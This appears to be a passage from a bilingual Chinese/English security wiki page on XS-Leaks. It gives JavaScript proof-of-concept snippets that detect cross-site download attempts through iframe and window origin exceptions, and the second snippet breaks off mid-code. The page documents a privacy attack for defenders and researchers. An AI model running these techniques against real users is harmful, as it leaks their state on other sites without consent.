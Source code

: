 ```javascript
// 指定要测试是否进行了下载的 URL
// Set the destination URL to test for the download attempt
var url = 'https://example.org/';
// 新建一个 outer iframe 来检测下载事件
// Create an outer iframe to measure onload event
var iframe = document.createElement('iframe');
document.body.appendChild(iframe);
// 新建一个 inner iframe 来检测是否尝试过进行下载
// Create an inner iframe to test for the download attempt
iframe.srcdoc = `<iframe src="${url}" ></iframe>`;
iframe.onload = () => {
      try {
          // 如果发生了 navigation，那么 iframe 会变成跨源
          // 那么获取 inner.origin 时就会报错
          // If a navigation occurs, the iframe will be cross-origin,
          // so accessing "inner.origin" will throw an exception
          iframe.contentWindow.frames[0].origin;
          console.log('Download attempt detected');
      } catch(e) {
          console.log('No download attempt detected');
      }
}
```

{{< hint info >}}
当 `iframe` 内没有由下载尝试引起的 navigation 时，`iframe` 不会直接触发 `onload` 事件。由于这个原因，在上面的例子中，使用了一个 outer `iframe`，它会监听一个 `onload` 事件，当子资源（包括 `iframe`）完成加载时就会触发该事件。

When there is no navigation inside an `iframe` caused by a download attempt, the `iframe` does not trigger an `onload` event directly. For this reason, in the example above, an outer `iframe` was used instead, which listens for an `onload` event which triggers when subresources finish loading, including `iframe`s.
{{< /hint >}}

{{< hint important >}}
这种攻击不受任何 [Framing Protections]({{< ref "xfo" >}}) 的影响，因为一旦指定了 `Content-Disposition: attachment` 头，那么 `X-Frame-Options` 和 `Content-Security-Policy` 头都会被忽略。

This attack works regardless of any [Framing Protections]({{< ref "xfo" >}}), because the `X-Frame-Options` and `Content-Security-Policy` headers are ignored if `Content-Disposition: attachment` is specified.
{{< /hint >}}

### 下载的 Navigation（不通过 iframe 检测）

作为上一节介绍的技术的一个变种，我们也可以使用 `window` 对象来进行高效的测试：

A variation of the technique presented in the previous section can also be effectively tested using `window` objects:

```javascript
// 设置目标 URL
// Set the destination URL
var url = 'https://example.org';
// 获取 window reference
// Get a window reference
var win = window.open(url);
// 等待 window 加载
// Wait for the window to load.
setTimeout(() => {
      try {
          // 如果发生 navigation，iframe 就是跨源的
          // 那么获取 "win.origin" 的时候就会报错
          // If a navigation occurs, the iframe will be cross-origin,
          // so accessing "win.origin" will throw an exception
          win.origin;
```

[^1]: Protected tweets exposure through the url, [link](https://hackerone.com/reports/491473)
[^2]: Disclose domain of redirect destination taking advantage of CSP, [link](https://bugs.chromium.org/p/chromium/issues/detail?id=313737)
[^3]: Using Content-Security-Policy for Evil, [link](http://homakov.blogspot.com/2014/01/using-content-security-policy-for-evil.html)
[^cache-bypass]: [github.com/xsleaks/wiki/pull/106](https://github.com/xsleaks/wiki/pull/106)